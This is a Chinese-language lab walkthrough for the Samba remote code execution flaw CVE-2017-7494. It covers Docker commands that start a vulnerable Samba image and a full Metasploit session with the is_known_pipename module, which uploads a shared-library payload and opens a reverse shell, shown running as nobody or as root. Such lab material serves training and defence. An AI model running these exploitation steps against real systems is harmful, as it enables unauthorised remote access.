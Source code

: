 Samba远程代码执行漏洞(CVE-2017-7494)
---

### 漏洞信息

2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。

* [Remote code execution from a writable share.](https://www.samba.org/samba/security/CVE-2017-7494.html)

### 镜像信息

类型 | 值
:-:|:-:
samba 端口 | 445

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_samba_1
 ```

2. 启动环境

 ```
$ docker run -d -p 445:445 -p 139:139 -p 138:138 -p 137:137 medicean/vulapps:s_samba_1
 ```
 > `-p 445:445` 前面的 445 代表物理机的端口
 >

### 利用步骤

假定目标 IP 是： 192.168.35.197

```
msf > use exploit/linux/samba/is_known_pipename
msf exploit(is_known_pipename) > set RHOST 192.168.35.197
RHOST => 192.168.35.197
msf exploit(is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOST           192.168.35.197   yes       The target address
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_BASE                   no        The remote filesystem path correlating with the SMB share name
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   2   Linux x86_64


msf exploit(is_known_pipename) > run

[*] Started reverse TCP handler on 192.168.35.197:4444
[*] 192.168.35.197:445 - Using location \\192.168.35.197\share\ for the path
[*] 192.168.35.197:445 - Payload is stored in //192.168.35.197/share/ as dDUJiiuf.so
[*] 192.168.35.197:445 - Trying location /volume1/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /volume1/share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /volume1/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /mnt/media/SHARE/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /mnt/media/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/SHARE/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /var/samba/Share/dDUJiiuf.so...
[*] 192.168.35.197:445 - Trying location /tmp/dDUJiiuf.so...
[*] Command shell session 1 opened (192.168.35.197:4444 -> 192.168.35.197:58089) at 2017-05-25 13:26:19 +0800

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```

如果 smb.conf 配置了 `guest account = root` 这一项, 则显示如下：

```
id
uid=0(root) gid=0(root) groups=0(root)
```

### 推荐阅读

* [First crack at Samba CVE-2017-7494 #8450](https://github.com/rapid7/metasploit-framework/pull/8450)
* [Samba远程代码执行漏洞(CVE-2017-7494)分析](http://blogs.360.cn/blog/samba%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9Ecve-2017-7494%E5%88%86%E6%9E%90/)